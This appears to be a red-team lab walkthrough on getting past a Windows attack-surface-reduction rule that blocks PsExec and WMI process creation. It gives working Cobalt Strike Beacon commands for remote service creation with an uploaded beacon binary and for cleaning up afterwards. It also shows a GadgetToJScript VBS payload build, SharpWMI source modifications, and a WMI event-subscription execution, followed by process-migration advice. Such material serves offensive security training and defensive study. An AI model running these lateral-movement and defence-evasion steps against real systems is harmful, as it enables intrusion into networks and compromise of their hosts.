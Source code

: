 _"This rule blocks processes created through PsExec and WMI from running."_

PsExec from the Sysinternals Suite and WMI Process Call Create are two popular methods for lateral movement (PsExec also a useful way to get SYSTEM access from a local admin).  `RTO2\cbridges` is a local admin on WKSTN-2, so from WKSTN-1 we can try and execute commands remotely to demonstrate the restrictions.

  

## PsExec

Attempting to execute a binary via PsExec on the remote target fails.

C:\Users\cbridges>C:\Sysinternals\PsExec64.exe \\wkstn-2 cmd.exe

PsExec v2.32 - Execute processes remotely
Copyright (C) 2001-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

PsExec could not start cmd.exe on wkstn-2:
The system cannot find the file specified.

  

On WKSTN-2, the following alert is raised:


![[72. Block PsExecWMI.png]]


It appears this rule is specific to the Sysinternals PsExec implementation - it does not prevent you from creating and starting arbitrary services, which makes this trivial to bypass.  Simply drop your own service binary to disk and create a service to run it.

beacon> cd \\wkstn-2\admin$
beacon> upload /root/beacon-svc.exe
beacon> run sc \\wkstn-2 create RandoService binPath= C:\Windows\beacon-svc.exe

[SC] CreateService SUCCESS

beacon> run sc \\wkstn-2 start RandoService

SERVICE_NAME: RandoService 
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2056
        FLAGS              : 

beacon> link wkstn-2
[+] established link to child beacon: 10.10.120.75

beacon> rm beacon-svc.exe
beacon> run sc \\wkstn-2 delete RandoService

[SC] DeleteService SUCCESS

This also means the automated jump command works.

![[73. Block PsExecWMI.png]]

## WMI

As with PsExec, attempting to execute a binary via `wmic /node` or Cobalt Strike's `remote-exec wmi` command is blocked.

beacon> run wmic /node:"wkstn-2" process call create "C:\Windows\System32\win32calc.exe"

Executing (Win32_Process)->Create()

Method execution successful.

Out Parameters:
instance of __PARAMETERS
{
	ReturnValue = 2;
};

  

The rule effectively prevents WmiPrvSE.exe from spawning children.


![[74. Block PsExecWMI.png]]

The way to get around this one is to use VBScript payloads via an event subscription.

This requires a number of steps:

-   Generate a payload
-   Connect to WMI
-   Create an event filter to trigger the execution (via a timer)
-   Create an [ActiveScriptEventConsumer](https://docs.microsoft.com/en-us/windows/win32/wmisdk/activescripteventconsumer), using the VBScript engine
-   Create a FilterToConsumerBinding to link the filter and consumer
-   Wait for execution
-   Delete all of the above

Luckily, [SharpWMI](https://github.com/GhostPack/SharpWMI) already has this capability built-in.  For the payload, we can use one of our C# process injection projects and GadgetToJScript with the **-w vbs** option to write this out to a .vbs file.

C:\Tools\GadgetToJScript>GadgetToJScript\bin\Debug\GadgetToJScript.exe -a TestAssembly\bin\Debug\TestAssembly.dll -w vbs -o C:\Users\Administrator\Desktop\wmi -b
[+]: Generating the vbs payload
[+]: First stage gadget generation done.
[+]: Loading your .NET assembly:TestAssembly\bin\Debug\TestAssembly.dll
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Users\Administrator\Desktop\wmi.vbs

  

There are some gotcha's from here.  SharpWMI's `script=` parameter expects to read the VBS file off disk of the machine running Beacon (not from your host), or it takes the input as raw VBS.  The `scriptb64=` parameter takes the VBS as a single base64 encoded string, but the G2JS gadget is too large to fit on the CS command line.  A solution to this, though far from ideal, is to hardcode the gadget directly into the SharpWMI assembly.

At the top of **Program.cs** you will see several **private static string** fields.  Create a new called HardcodedGadget (or something similar) and copy/paste the G2JS VBS here.

private static string HardcodedGadget = @"<PUT YOUR VBS HERE>";

  

Within this file, there's also a method called **GetVBSPayload**, which returns a string.  It usually returns a VBS payload based on your script= or scriptb64= input.  But I'm going to force this method to always return the hardcoded gadget by doing something like this:

static string GetVBSPayload(Dictionary<string, string> arguments)
{
    return HardcodedGadget;
}

  

Then just re-compile the assembly and execute it.

beacon> execute-assembly /root/tools/SharpWMI2.exe action=executevbs computername=wkstn-2 script=blah

[*] Using direct script's parameter as VBScript payload.
[*] Script will trigger after 10 and we'll wait for 12 seconds.

[*] Creating Event Subscription Debug : wkstn-2 - with interval between events: 10 secs
[*] Setting 'Debug' event filter on wkstn-2
[*] Setting 'Debug' event consumer on wkstn-2 to kill script after 12 secs
[*] Binding 'Debug' event filter and consumer on wkstn-2

[*] Waiting 10 seconds for event to trigger on wkstn-2 ...

[*] Removing 'Timer' internal timer from wkstn-2
[*] Removing FilterToConsumerBinding from wkstn-2
[*] Removing 'Debug' event filter from wkstn-2
[*] Removing 'Debug' event consumer from wkstn-2

  

The VBS is executed by scrcons.exe (WMI Standard Event Consumer), so if your injector performs "self-injection" (e.g. `var target = Process.GetCurrentProcess();`), the Beacon will be running inside this process.


![[75. Block PsExecWMI.png]]


  scrcons.exe will exit shortly after execution, so you have to migrate out of this process ASAP (e.g. with inject, shinject, shspawn etc).
 